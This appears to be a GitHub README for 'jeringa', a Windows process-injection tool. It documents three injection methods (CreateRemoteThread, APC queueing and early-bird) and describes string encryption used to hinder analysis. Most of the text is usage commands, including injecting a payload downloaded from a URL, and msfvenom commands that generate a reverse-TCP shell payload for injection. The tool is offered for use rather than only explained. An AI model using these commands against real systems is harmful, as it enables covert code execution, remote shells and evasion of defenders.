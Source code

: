 # jeringa

Tool for easy process injection. It implements several types of process injection and uses dynamic function loading using delegates and AES to encrypt all the strings, so the function names are not easiliy retrievable.
- Process listing: By process name or process owner
- Payload: As input argument or using a url to download it
- Process injection via:
    - inject-crt: OpenProcess + VirtualAllocEx + WriteProcessMemory + CreateRemoteThread
    - inject-apc: OpenProcess + VirtualAllocEx + WriteProcessMemory + OpenThread + QueueUserAPC 
    - earlybird:  CreateProcess + VirtualAllocEx + WriteProcessMemory + ResumeThread


--------------------------------------

### Process information

Option "list" to enumerate all processes or filter by name or owner:

```
jeringa.exe list [ all | PROCESS_NAME | PROCESS_OWNER]
```

Example - List all processes:

```
jeringa.exe list all
```

Example - List processes with a specific name ("explorer") or process owner ("DESKTOP-MA54241\ricardo"):

```
jeringa.exe list explorer
jeringa.exe list "DESKTOP-MA54241\ricardo"
```

--------------------------------------

###  Injection type "inject-crt" (OpenProcess + VirtualAllocEx + WriteProcessMemory + CreateRemoteThread)

You can use the process name and owner, or the PID. The payload can be in HEX format or a url to download it, if not the program asks for a value/url.

```
jeringa.exe inject-crt [(PROCESS_NAME PROCESS_OWNER) | PROCESS_PID] [ HEX_PAYLOAD | URL]
```

Example - Injection using process name, process owner and payload in HEX format:

```
jeringa.exe inject-crt explorer "DESKTOP-MA54241\ricardo" fc4883e4f0e8...
```

Example - Injection using PID ("1234") and a url to download the payload:

```
jeringa.exe inject-crt 1234 http://127.0.0.1/payload.bin
```

--------------------------------------

###  Injection type "inject-apc" (OpenProcess + VirtualAllocEx + WriteProcessMemory + OpenThread + QueueUserAPC)

You can use the process name and owner, or the PID. The payload can be in HEX format or a url to download it, if not the program asks for a value/url. 

For this one you must wait until the thread enters in alertable state, you can try it using Notepad and the option "Save as".

```
jeringa.exe inject-apc [(PROCESS_NAME PROCESS_OWNER) | PROCESS_PID] [ HEX_PAYLOAD | URL]
```

Example - Injection using process name, process owner and payload in HEX format:

```
jeringa.exe inject-apc explorer "DESKTOP-MA54241\ricardo" fc4883e4f0e8...
```

Example - Injection using PID ("1234") and a url to download the payload:

```
jeringa.exe inject-apc 1234 http://127.0.0.1/payload.bin
```


--------------------------------------

###  Injection type "earlybird" (CreateProcess + VirtualAllocEx + WriteProcessMemory + ResumeThread)

You only set the program path. The payload can be in HEX format or a url to download it, if not the program asks for a value/url.

```
jeringa.exe earlybird PROGRAM_PATH [ HEX_PAYLOAD | URL]
```

Example - Injection using program path and payload in HEX format:

```
jeringa.exe earlybird "c:\windows\system32\notepad.exe" fc4883e4f0e8...
```

Example - Injection using program path and a url to download the payload:

```
jeringa.exe earlybird "c:\windows\system32\calc.exe" http://127.0.0.1/payload.bin
```

--------------------------------------

### Payload generation

You can use your custom payloads or use Msfvenom. In case you use the HEX payload option you must delete all "\x" or similar characters. If you use the url option the payload must be in raw format.

Example - Create payload in HEX format using Msfvenom with:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f c EXITFUNC=thread | grep '\x' | tr -d '"\n\\x;'
```

Example - Create payload in raw format for url option using Msfvenom with:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 EXITFUNC=thread -f bin > payload.bin
```
